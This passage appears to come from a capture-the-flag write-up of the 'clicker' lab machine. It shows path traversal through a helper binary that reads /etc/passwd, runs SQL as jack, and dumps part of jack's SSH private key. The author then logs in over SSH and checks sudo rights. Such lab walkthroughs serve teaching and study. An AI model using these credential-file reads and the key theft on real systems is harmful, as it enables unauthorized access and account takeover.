 Interestingly, using the exact number of .. directories is necessary for the traversal to work. Maybe the `mysql` binary or the system call limits the traversal depth with an arbitrary number of `..` entries? No, more likely this is because the executable uses a small string buffer for the argument, and too many `..`'s will truncate the filename.

```console
www-data@clicker:/opt/manage$ ./execute_query 5 '../../../../etc/passwd'
File not readable or not found
```

I can use this to run arbitrary MySQL commands as `jack`:

```console
www-data@clicker:/dev/shm$ /opt/manage/execute_query 5 '../../../tmp/x.sql'
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
select sleep(5)
--------------
```

Direct code execution via MySQL statements doesn't seem possible, but I can read the user's SSH key:

```text
www-data@clicker:/tmp$ /opt/manage/execute_query 5 '../.ssh/id_rsa'
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
J/tSzgoR9Fko8I1UpLnHCLz2Ezsb/MrLCe8nG5TlbJrrQ4HcqnS4TKN7DZ7XW0bup3ayy1
...
```

I clean up the key and use it to login as `jack` via SSH:

```console
$ ssh -i id.jack jack@clicker.htb
Warning: Permanently added 'clicker.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
...
jack@clicker:~$ ls
queries  user.txt
```

Now, check `sudo`:

```console
jack@clicker:~/queries$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```
